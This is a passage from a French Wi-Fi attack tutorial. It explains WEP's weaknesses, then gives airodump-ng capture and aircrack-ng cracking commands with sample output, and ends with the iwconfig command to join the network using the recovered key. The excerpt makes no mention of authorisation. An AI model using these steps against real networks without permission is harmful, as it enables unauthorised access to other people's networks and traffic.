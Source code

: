 ```bash
 AA:BB:CC:DD:EE:FF  11:22:33:44:55:66  -42    0e- 1e     0      167  
 AA:BB:CC:DD:EE:FF  77:88:99:AA:BB:CC  -55    0e- 0e     0       89

# STATION = Appareils connectés au réseau (smartphones, PC, etc.)
# Frames = Nombre paquets échangés par cet appareil
```

## 🔓 Attaques WEP (Wired Equivalent Privacy)

### **Principe vulnérabilité WEP**
```bash
# WEP = TRÈS ANCIEN chiffrement (1997)
# COMPLÈTEMENT CASSÉ depuis 2001

POURQUOI WEP EST VULNÉRABLE :
1. Clé de chiffrement faible (40-bit ou 104-bit)
2. Vecteur d'initialisation (IV) répété  
3. Même clé utilisée pour tous clients
4. Algorithme RC4 mal implémenté

TEMPS POUR CASSER WEP :
• Réseau actif (trafic) : 5-15 minutes
• Réseau inactif : 2-6 heures (avec injection)
• Réseau abandonné : Impossible (pas de trafic)

PAQUETS NÉCESSAIRES :
• WEP 64-bit : ~20 000 paquets IV uniques
• WEP 128-bit : ~40 000 paquets IV uniques
```

### **Attaque WEP passive**
```bash
# ÉTAPE 1 : Capturer trafic WEP
sudo airodump-ng -c 6 --bssid 77:88:99:AA:BB:CC -w wep_capture wlan1mon

# Attendre accumulation paquets (colonne #Data)
# Objectif : 20 000+ paquets pour WEP 64-bit

# ÉTAPE 2 : Tenter crack avec paquets capturés
aircrack-ng wep_capture-01.cap

# SORTIE SUCCÈS :
                             [00:01:45] Tested 156742 keys (got 24953 IVs)

   KB    depth   byte(vote)
    0    0/  9   12(29952) A4(29184) 3F(28928) C6(28672) 6E(28416)
    1    0/  7   34(30464) F1(30208) 51(29696) C7(29440) 22(29184)
    2    0/  8   56(30720) AB(30464) 78(30208) 9C(29952) D3(29696)
    3    0/  6   78(31232) EF(30976) 9A(30720) BC(30464) 12(30208)
    4    0/  4   9A(31488) DE(31232) F0(30976) 23(30720) 45(30464)

                         KEY FOUND! [ 12:34:56:78:9A ]
        
# CLÉ WEP TROUVÉE : 12:34:56:78:9A
# Se connecter : sudo iwconfig wlan1 key 12:34:56:78:9A
```
